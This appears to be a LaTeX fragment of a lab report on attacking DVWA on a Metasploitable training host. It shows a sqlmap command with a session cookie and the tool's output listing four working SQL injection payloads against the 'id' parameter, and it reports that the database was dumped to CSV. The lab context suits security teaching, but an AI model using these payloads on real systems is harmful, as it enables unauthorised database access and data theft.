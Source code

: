 \documentclass{article}
\begin{document}
\begin{figure}[h!]
	\includegraphics[width=\linewidth]{images/dvwa-sql-injection.png}
	\caption{SQL injection page.}
	\label{fig:sql-injection}
\end{figure}

\newpage
With a valid URL and Session cookie I can now use SQLMap to test out sql injection attacks.
I was able to get a dump of the database exported as csv files.

\begin{lstlisting}[language=Bash]
\./sqlmap.py -u "http://metasploitable.sait230.ca/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=40ae620791b3658e5ee7eaaefbef49dc;" --tables
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4543=4543 AND 'qoRs'='qoRs&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=1' AND (SELECT 1602 FROM(SELECT COUNT(*),CONCAT(0x3a716a663a,(SELECT (CASE WHEN (1602=1602) THEN 1 ELSE 0 END)),0x3a6664633a,FLOOR(RAND(0)*2))x FROM INFORMATION_
SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lZPr'='lZPr&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' LIMIT 1,1 UNION ALL SELECT CONCAT(0x3a716a663a,0x4b574169554a4c62647a,0x3a6664633a), NULL#&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'QNHQ'='QNHQ&Submit=Submit
---
\end{lstlisting}
\end{document}

